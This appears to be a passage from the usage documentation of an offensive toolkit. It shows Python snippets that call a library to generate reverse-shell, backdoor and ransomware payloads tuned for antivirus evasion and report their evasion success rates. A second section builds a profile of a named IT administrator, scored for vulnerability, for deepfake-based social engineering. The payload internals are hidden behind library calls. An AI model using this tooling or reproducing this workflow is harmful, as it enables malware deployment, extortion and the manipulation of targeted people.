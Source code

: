 ## 4. Neural Payloads

```python
from neural_payloads.neural_payload_generator import NeuralPayloadGenerator

# Initialize the neural payload generator
npg = NeuralPayloadGenerator()

# Generate different types of advanced payloads
reverse_shell = npg.generate_advanced_payload(
    payload_type="reverse_shell",
    target_os="windows",
    evasion_level=10
)

backdoor = npg.generate_advanced_payload(
    payload_type="backdoor",
    target_os="linux",
    evasion_level=9
)

ransomware = npg.generate_advanced_payload(
    payload_type="ransomware",
    target_os="macos",
    evasion_level=8
)

# Analyze payload metrics
print(f"Reverse shell fitness score: {reverse_shell['config'].fitness_score*100}%")
print(f"Backdoor evasion techniques: {', '.join(backdoor['config'].evasion_techniques)}")
print(f"Ransomware encryption: {ransomware['metadata']['encryption_algorithm']}")

# Get statistics on payload generation
stats = npg.get_generation_statistics()
print(f"Total payloads generated: {stats['total_generated']}")
print(f"Successful evasions: {stats['successful_evasions']}")
print(f"Evasion success rate: {stats['evasion_rate']*100}%")
```

## 5. DeepFake Social Engineering

```python
from deepfake_social.deepfake_social_engineering_platform import DeepFakeSocialEngineeringPlatform
from dataclasses import asdict

# Initialize the deepfake platform
dfse = DeepFakeSocialEngineeringPlatform()

# Create a target profile
target_info = {
    "full_name": "James Anderson",
    "email": "j.anderson@target-corp.com",
    "position": "IT Administrator",
    "interests": ["cybersecurity", "cloud computing", "gaming"],
    "social_media": {
        "linkedin": "jamesanderson",
        "twitter": "j_anderson_tech"
    }
}
target_profile = dfse.create_target_profile(target_info)
print(f"Target profile created: {target_profile.target_id}")
print(f"Vulnerability score: {target_profile.vulnerability_score*100}%")

```